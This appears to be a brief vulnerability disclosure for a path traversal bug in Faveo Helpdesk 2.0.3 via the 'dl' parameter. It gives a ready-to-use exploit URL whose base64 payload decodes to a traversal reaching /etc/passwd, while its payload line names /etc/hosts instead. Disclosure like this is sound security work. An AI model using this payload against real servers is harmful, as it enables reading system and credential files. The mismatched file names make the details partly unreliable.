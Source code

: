Vulnerability: File Traversal via dl

URL: https://192.168.124.130/logs?dl=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d

Payload: ../../../../../../../../../../../../../../../../etc/hosts

Action to trigger: None

Note: The payload needs to be base64 encoded and then URL encoded

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin

Vulnerable Parameter: dl


https://github.com/ladybirdweb/faveo-helpdesk

![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_File_Traversal_via_dl.gif)
